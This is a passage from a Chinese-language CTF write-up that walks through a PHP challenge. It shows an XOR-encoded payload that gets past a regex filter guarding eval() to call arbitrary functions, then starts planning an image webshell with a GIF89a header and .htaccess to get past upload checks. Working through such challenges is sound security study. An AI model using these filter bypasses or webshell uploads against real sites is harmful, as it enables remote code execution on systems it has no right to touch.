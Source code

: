 我们将代码分为两部分。

**第一部分绕过：**

```
$hhh = @$_GET['_'];
......
if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&amp;.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');
......
eval($hhh);
```

这一块好绕过，直接异或绕过正则匹配，来拼接出 payload：

```
$`{`%ff%ff%ff%ff^%a0%b8%ba%ab`}``{`%ff`}`();&amp;%ff=phpinfo

// %ff%ff%ff%ff^%a0%b8%ba%ab 异或结果为$_GET，`{`$_GET`}``{`%ff`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t019bec611cec121da0.png)

如上图，phpinfo()函数执行成功，那我们就可以用这个payload来调用他题目中定义的get_the_flag()函数了，即：

```
$`{`%ff%ff%ff%ff^%a0%b8%ba%ab`}``{`%ff`}`();&amp;%ff=get_the_flag
```

就此绕过第一段。

**第二部分绕过：**

```
function get_the_flag()`{`
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir))`{`
    mkdir($userdir);
    `}`
    if(!empty($_FILES["file"]))`{`
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '&lt;?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    `}`
`}`
```

代码的逻辑是文件上传，过滤了文件后缀，不能出现“ph”，看来只能上传图片马配合 .htaccess 了，且 exif_imagetype 判断一个图像的类型，读取一个图像的第一个字节并检查其签名，所以我们图片马的开头要加上GIF89a，还有就是图片马文件内容中不能有“&lt;?”。
